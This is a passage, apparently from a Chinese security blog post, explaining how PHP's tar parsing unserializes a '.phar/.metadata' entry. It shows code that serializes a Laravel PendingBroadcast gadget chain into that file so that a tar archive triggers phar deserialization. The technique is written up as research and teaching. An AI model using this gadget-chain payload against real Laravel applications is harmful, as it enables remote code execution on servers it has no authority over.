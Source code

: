 ```
        `}`
```

这里检查了tar压缩包中的文件名是否为`.phar/.metadata`,如果是则将`newentry`和`fp`分别作为`phar_tar_process_metadata`的两个参数,而`newentry-&gt;metadata`的值会进行反序列化处理

因此我们需要

```
...
...
$exp = new Illuminate\Broadcasting\PendingBroadcast($dispatcher,$broadcastevent);
file_put_contents(".phar/.metadata",serialize($exp));
```

然后将该文件夹压缩成tar包同样也能触发phar反序列化:

[![](https://p1.ssl.qhimg.com/t015995226641d93d73.png)](https://p1.ssl.qhimg.com/t015995226641d93d73.png)

参考文章:<br>[https://guokeya.github.io/post/uxwHLckwx/](https://guokeya.github.io/post/uxwHLckwx/)<br>[https://blog.zsxsoft.com/post/38](https://blog.zsxsoft.com/post/38)
